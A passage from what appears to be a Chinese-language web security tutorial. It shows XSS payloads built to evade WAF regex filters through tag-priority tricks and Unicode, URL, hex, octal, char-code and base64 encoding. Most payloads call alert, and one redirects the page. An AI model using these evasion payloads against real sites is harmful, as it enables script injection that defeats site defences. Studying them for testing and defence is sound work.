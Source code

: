 ##### 其它字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了
下面举几个简单的例子

```html
可利用注释、标签的优先级等
1.<<script>alert("xss");//<</script>
2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

##### 编码绕过

Unicode编码绕过

```html
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
```

url编码绕过

```html
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

Ascii码绕过

```html
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
```

hex绕过

```html
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
```

八进制

```html
<img src=x onerror=alert('\170\163\163')>
```

base64绕过

```html
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

##### 过滤双引号，单引号

1.如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号
